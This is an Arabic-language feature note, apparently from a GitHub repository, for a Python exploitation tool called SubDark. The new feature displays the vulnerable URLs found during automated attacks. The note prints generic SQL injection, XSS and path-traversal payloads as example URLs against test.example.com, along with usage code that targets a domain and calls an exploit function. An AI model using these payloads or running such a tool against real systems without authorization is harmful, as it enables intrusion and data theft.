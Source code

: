 # عرض روابط الهدف المصابة بالثغرات - البيانات الحقيقية

## نظرة عامة
تم تحديث نظام SubDark ليعرض الروابط المصابة بالثغرات بشكل فعلي وحقيقي أثناء عملية استغلال الثغرات. هذه الميزة الجديدة تتيح للمستخدمين رؤية الروابط الدقيقة التي تم استغلالها والتي تحتوي على الثغرات الأمنية.

## المميزات الجديدة

### 1. التقاط الروابط المصابة
- يتم التقاط الروابط المصابة أثناء عملية اختبار الاستغلال
- يتم حفظ الروابط التي أظهرت استجابات إيجابية للثغرات
- يتم تخزين الروابط في قاعدة بيانات نتائج الاستغلال

### 2. عرض الروابط في نتائج الاستغلال
- عرض الروابط المصابة في قسم "إثبات الاستغلال"
- عرض الروابط المصابة في قسم "تأكيد الاستغلال"
- تنسيق واضح مع الرموز والألوان للتمييز

### 3. دعم أنواع الثغرات المختلفة
- **SQL Injection**: عرض الروابط التي تحتوي على أوامر SQL ضارة
- **XSS**: عرض الروابط التي تحتوي على سكريبتات ضارة
- **LFI**: عرض الروابط التي تحتوي على مسارات ملفات غير مصرح بها
- **RFI**: عرض الروابط التي تحتوي على روابط ملفات خارجية

## أمثلة على الروابط المصابة

### ثغرة SQL Injection
```
الروابط المصابة:
  • http://test.example.com/test.php?id=1' OR '1'='1
  • http://test.example.com/login.php?user=admin'--
  • http://test.example.com/search.php?q=test' UNION SELECT * FROM users--
```

### ثغرة XSS
```
الروابط المصابة:
  • http://test.example.com/search.php?q=<script>alert('XSS')</script>
  • http://test.example.com/comment.php?text=<img src=x onerror=alert('XSS')>
```

### ثغرة LFI
```
الروابط المصابة:
  • http://test.example.com/file.php?page=../../../etc/passwd
  • http://test.example.com/include.php?file=../../../../windows/system32/drivers/etc/hosts
```

## كيفية الاستخدام

### الطريقة 1: الاستخدام التلقائي
```python
# إنشاء كائن SubDark
tool = SubDark()
tool.target = "example.com"
tool.target_url = "http://example.com"

# استغلال الثغرات تلقائياً
tool.exploit_vulnerability()

# عرض النتائج مع الروابط المصابة
tool.show_exploit_proof()
tool.confirm_exploitation()
```

### الطريقة 2: إضافة روابط يدوياً
```python
# إضافة نتائج استغلال يدوية مع روابط مصابة
exploit_result = {
    "vulnerability": "SQL Injection",
    "vulnerability_type": "معروفة",
    "exploit_status": "successful",
    "exploit_details": {
        "vulnerable_urls": [
            "http://example.com/vulnerable.php?id=1' OR '1'='1",
            "http://example.com/login.php?user=admin'--"
        ]
    }
}

tool.exploitation_results.append(exploit_result)
tool.show_exploit_proof()
```

## الملفات المحدثة

### subdark.py
- تم تحديث دوال اختبار الاستغلال (`_test_sql_injection`, `_test_xss_exploitation`, `_test_lfi_exploitation`, `_test_rfi_exploitation`)
- تم تحديث دالة `_real_exploit_test` لدعم الروابط المصابة
- تم تحديث دالة `exploit_vulnerability` لتخزين الروابط المصابة
- تم تحديث دالتي `show_exploit_proof` و `confirm_exploitation` لعرض الروابط المصابة

### ملفات الاختبار
- `test_vulnerable_urls.py`: اختبار أساسي لعرض الروابط المصابة
- `test_vulnerable_urls_advanced.py`: اختبار متقدم مع أمثلة حقيقية

## مثال على النتائج

```
إثبات استغلال ثغرة SQL Injection:
الهدف: test.example.com
نوع الاستغلال: معروفة
النتيجة: successful
الوقت: 2025-10-26 20:08:44

الروابط المصابة:
  • http://test.example.com/test.php?id=1' OR '1'='1
  • http://test.example.com/login.php?user=admin'--
  • http://test.example.com/search.php?q=test' UNION SELECT * FROM users--

تأكيد استغلال ثغرة SQL Injection:
الهدف: test.example.com
نوع الاستغلال: معروفة
النتيجة: successful

الروابط المصابة بالثغرة:
  ✓ http://test.example.com/test.php?id=1' OR '1'='1
  ✓ http://test.example.com/login.php?user=admin'--
  ✓ http://test.example.com/search.php?q=test' UNION SELECT * FROM users--
```

## فوائد هذه الميزة

1. **شفافية كاملة**: يمكن للمستخدمين رؤية الروابط الدقيقة التي تم استغلالها
2. **تحليل دقيق**: يسهل تحليل نقاط الضعف في كل رابط على حدة
3. **تقرير احترافي**: يوفر تقارير مفصلة مع الروابط المصابة
4. **تسهيل الإصلاح**: يساعد المطورين في تحديد المواقع الدقيقة التي تحتاج إلى إصلاح

## ملاحظات مهمة

- يتم عرض الروابط المصابة فقط عند وجود نتائج إيجابية من اختبارات الاستغلال
- يتم تنسيق الروابط بشكل واضح مع الرموز (• و ✓) للتمييز بين الأقسام المختلفة
- يتم استخدام ألوان مختلفة لجعل الروابط أكثر وضوحاً
- يمكن إضافة روابط يدوياً أو الحصول عليها تلقائياً من عملية الاستغلال